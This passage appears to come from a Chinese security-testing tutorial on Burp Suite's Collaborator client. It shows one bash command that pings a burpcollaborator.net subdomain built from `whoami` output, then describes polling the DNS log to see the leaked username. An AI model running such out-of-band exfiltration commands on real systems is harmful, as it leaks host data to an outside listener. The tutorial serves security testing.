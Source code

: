 ![1536409490993](Untitled.assets/1536409490993.png)

	下面举个简单的例子，在Linux shell中执行如下命令：

```bash
ping `whoami`.p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net
```

	点击Collaborator client窗口中的Poll now获取dnslog，如下图，在log条目区域显示两条日志，在下面的日志详情中我们看到了从子域名中携带出了`whoami`的执行结果。
